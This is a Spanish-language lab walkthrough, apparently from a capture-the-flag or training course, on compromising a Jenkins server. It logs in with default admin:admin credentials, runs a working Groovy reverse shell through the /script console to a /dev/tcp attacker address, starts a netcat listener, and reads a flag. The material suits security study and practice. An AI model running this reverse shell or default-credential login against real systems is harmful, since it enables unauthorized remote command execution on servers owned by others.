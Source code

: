 # Laboratorio: Jenkins 🤵

1. Agregamos el dominio y la dirección IP al archivo **`/etc/hosts`**
---
2. Nos loguemos con las credenciales `admin:admin` en el panel de **Jenkins**.
---
3. En la **esquina inferior derecha**  vemos la versión de `Jenkins` 

<p align="center">
    <img src="./assets/Jenkins/01-Version.PNG">
</p>

---

# Laboratorio: Attacking Jenkins 🤺

1. Vamos a la consola de `/script` para ejecutar comandos
---
2. Ahora ejecutamos una reverse shell escrita en **groovy**
* **Reverse Shell Groovy**
```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/[IP]/[Port];cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
---
3. Nos ponemos en escucha: **`nc -lvnp 4444`**
---
4. Ahora leemos la **flag** 🏴
```bash
root@app02:/var/lib/jenkins3# cat flag.txt 
f33ling_gr00000vy!
```